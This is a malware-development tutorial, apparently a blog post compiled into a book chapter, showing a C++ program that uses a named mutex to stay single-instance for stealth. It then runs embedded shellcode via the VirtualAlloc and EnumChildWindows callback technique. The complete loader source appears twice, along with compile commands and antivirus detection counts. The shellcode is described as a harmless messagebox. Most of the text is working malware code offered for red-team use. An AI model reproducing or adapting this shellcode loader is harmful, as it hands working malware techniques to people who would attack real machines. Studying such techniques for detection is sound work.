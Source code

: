 \newpage
\subsection{39. malware development tricks. Mutex. C++ example.}

﷽

![injection](./images/84/2023-01-04_12-50.png){width="80%"}    

This post is the result of my own research into the malware dev trick: prevent self-execution via mutexes.     

Sometimes, when developing malware, for maximum stealth, it is necessary that the program be launched only once. To do this, according to the [MSDN documentation](https://learn.microsoft.com/en-us/dotnet/standard/threading/mutexes), we can use mutexes.

### mutex

For simplicity, we can use `CreateMutexA` function from Windows API:    

```cpp
HANDLE CreateMutexA(
  LPSECURITY_ATTRIBUTES lpMutexAttributes,
  BOOL                  bInitialOwner,
  LPCSTR                lpName
);
```

### practical example

In the simplest implementation, you can use this function in this way:    

create mutex with specific name, so multiple instances can detect it:    

```cpp
hMutex = CreateMutexA(NULL, FALSE, "MeowMeowMutex");
```

check if mutex already exists, exit from app:    

```cpp
if (GetLastError() == ERROR_ALREADY_EXISTS) {
  // if this process created the mutex, exit the application
  if (hMutex && GetLastError() == ERROR_ALREADY_EXISTS) {
    CloseHandle(hMutex);
    return 0;
  }
}
```

otherwise, run malicious logic and close the mutex when done:    

```cpp

//...
// malicious logic
LPVOID mem = VirtualAlloc(NULL, sizeof(my_payload), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
RtlMoveMemory(mem, my_payload, sizeof(my_payload));
EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);

//...

// cleanup
if (hMutex)
  CloseHandle(hMutex);
return 0;
```

So, full source code is looks like:    

```cpp
/*
 * hack.cpp - Create mutex, run shellcode. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2023/01/04/malware-tricks-26.html
*/
#include <windows.h>

unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {
  HANDLE hMutex;
  // create mutex with a name so multiple instances can detect it
  hMutex = CreateMutexA(NULL, FALSE, "MeowMeowMutex");
  // check if the mutex already exists
  if (GetLastError() == ERROR_ALREADY_EXISTS) {
    // if this process created the mutex, exit the application
    if (hMutex && GetLastError() == ERROR_ALREADY_EXISTS) {
      CloseHandle(hMutex);
      return 0;
    }
  }

  // shellcode running logic
  LPVOID mem = VirtualAlloc(NULL, sizeof(my_payload), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, my_payload, sizeof(my_payload));
  EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);

  // cleanup
  if (hMutex)
    CloseHandle(hMutex);
  return 0;
}
```

As you can see, I use running shellcode [via EnumChildWindows](https://cocomelonc.github.io/malware/2022/07/13/malware-injection-21.html) logic. Also, as usually, use `meow-meow` messagebox payload.     

### demo

Let's go to see everything in action. Compile our "malware":    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![injection](./images/84/2023-01-04_12-39.png){width="80%"}    

Then, move to victim's machine (in my case `Windows 10 x64`) and run:    

```powershell
.\hack.exe
```

![injection](./images/84/2023-01-04_12-38.png){width="80%"}    

Then, try to run this "malware" again from another Powershell terminal:    

![injection](./images/84/2023-01-04_12-41.png){width="80%"}    

As you can see, nothing started, we only have one messagebox.    

For checking correctness, we can add some print to our code:    

```cpp
/*
 * hack.cpp - Create mutex, run shellcode. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/
*/
#include <windows.h>
#include <cstdio>

unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {
  HANDLE hMutex;
  // create mutex with a name so multiple instances can detect it
  hMutex = CreateMutexA(NULL, FALSE, "MeowMeowMutex");
  // check if the mutex already exists
  if (GetLastError() == ERROR_ALREADY_EXISTS) {
    // if this process created the mutex, exit the application
    if (hMutex && GetLastError() == ERROR_ALREADY_EXISTS) {
      printf("MeowMeowMutex already exists, app already running =^..^=\n");
      CloseHandle(hMutex);
      return 0;
    }
  }

  // shellcode running logic
  LPVOID mem = VirtualAlloc(NULL, sizeof(my_payload), MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, my_payload, sizeof(my_payload));
  EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);

  // cleanup
  if (hMutex)
    CloseHandle(hMutex);
  return 0;
}
```

Then, repeat our steps again:    

![injection](./images/84/2023-01-04_12-49.png){width="80%"}    

As you can see everything is worked perfectly!    

Let’s go to upload `hack.exe` to VirusTotal:    

![injection](./images/84/2023-01-04_13-44.png){width="80%"}    

**So, 17 of 62 AV engines detect our file as malicious.**     

[https://www.virustotal.com/gui/file/153d249063f46b0d56603d7aab7e43a3361d74e9852367d8730f5e57fb9f5b9f/details](https://www.virustotal.com/gui/file/153d249063f46b0d56603d7aab7e43a3361d74e9852367d8730f5e57fb9f5b9f/details)      

This is trick is used for example by [Conti ransomware](https://attack.mitre.org/software/S0575/), [Hellokitty ransomware](https://attack.mitre.org/software/S0617/) and [AsyncRAT](https://github.com/NYAN-x-CAT/AsyncRAT-C-Sharp) in the wild.    

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.    

[Conti](https://attack.mitre.org/software/S0575/)      
[Hellokitty](https://attack.mitre.org/software/S0617/)      
[Hellokitty source code](https://github.com/Black-Hell-Team/Hello-Kitty)     
[AsyncRAT source code](https://github.com/NYAN-x-CAT/AsyncRAT-C-Sharp)    
[source code in github](https://github.com/cocomelonc/meow/tree/master/2023-01-04-malware-tricks-26)     
